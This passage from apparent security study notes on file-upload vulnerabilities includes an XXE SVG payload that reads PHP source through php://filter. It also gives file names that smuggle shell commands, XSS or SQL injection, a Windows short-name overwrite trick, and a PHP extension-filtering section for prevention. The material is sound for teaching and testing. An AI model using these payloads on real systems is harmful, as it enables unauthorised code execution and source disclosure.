 - To extract source code use base64:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

- Finally, the file upload vulnerability may lead to denial of service using the following techniques:
    - Decompression Bomb, if the web app automatically unzips a ZIP archive.
    - Pixel Flood, which creates a huge picture that when displayed will crash the server.

## Other Upload Attacks

### Injections in File Name

Some examples:
- `file$(whoami).jpg`
- ```file`whoami`.jpg```
- `file.jpg||whoami`
- Use XSS in file name: `<script>alert(window.origin);</script>`
- Use SQL query in file name: `file';select+sleep(5);--.jpg`

### Windows Specific Attacks

When dealing with the Windows environment we can use reserved characters (|, <, >, *, or ?) or reserved names(CON, COM1, LPT1, or NUL).
In older versions to shorten the file name Windows used `~`, for example, `HAC~1.txt` can match files with `HAC`. We can use this technique to overwrite files such as web.conf with `WEB~.conf`.

## Prevention

- Use blacklist(if the extension exists anywhere within the file name) and whitelist(if the file name ends with the extension) filtering:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

// blacklist test
if (preg_match('/^.+\.ph(p|ps|ar|tml)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

- We should validate if the file extension matches the file content and the content-type.

